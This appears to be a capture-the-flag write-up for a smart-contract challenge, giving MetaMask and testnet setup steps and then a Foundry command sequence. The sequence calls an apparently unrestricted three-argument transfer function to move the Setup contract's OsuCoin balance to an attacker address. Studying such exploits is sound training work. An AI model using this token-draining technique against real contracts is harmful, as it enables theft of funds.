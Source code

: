 # Note 

## Setup

### Account Creation

1. Create an account on MetaMask
2. Go to `Settings > Networks > Add a network`
3. At the bottom of the screen, choose `Add a network manually`
4. Enter any name
5. Enter the RPC URL provided in the challenge page
    > RPC endpoint: http://45.61.132.140:8545/
6. There would be an error message regarding mismatch chain ID. Use the exact chain ID mentioned in the error message (`0x5903`)
7. Enter any currency symbol
8. Save

### Getting Address, Funds, and Private Key

1. Go to `Account details`
2. The address would be shown in blue box (hexadecimal value)
3. For private key, just click on `Show private key`
4. To get some funds, head to the provided faucet URL and paste in your account address
    > ETH Testnet Faucet: http://45.61.132.140:8080/

## Solution

> [!NOTE]
> Remember to prefix the private key with `0x`

```sh
nc 45.61.132.140 20000
# choose 1 and save the deployer account and token
cast send $DEPLOYER_ACCOUNT --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY --value 0.001ether
nc 45.61.132.140 20000
# choose 2 and provide back the token obtained from previous step to get the contract address
export SETUP_ADDR="<contract address>"

forge init --shallow --no-git Solve
rm -f ./Solve/src/* ./Solve/test/*
cp ./contracts/* ./Solve/src/
forge build

cast interface ./Solve/out/Setup.sol/Setup.json
cast interface ./Solve/out/OsuCoin.sol/OsuCoin.json

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "coin()(address)"

export COIN_ADDR="<output of previous command>"
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR

cast send $COIN_ADDR --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY "transfer(address,address,uint256)(uint160)" $SETUP_ADDR $HACKER 1000000
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $HACKER

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "isSolved()(bool)"
nc 45.61.132.140 20000
# choose 3 and profit
```

## Appendix

Use `cast call` if the function is declared with `view` keyword, otherwise use `cast send`

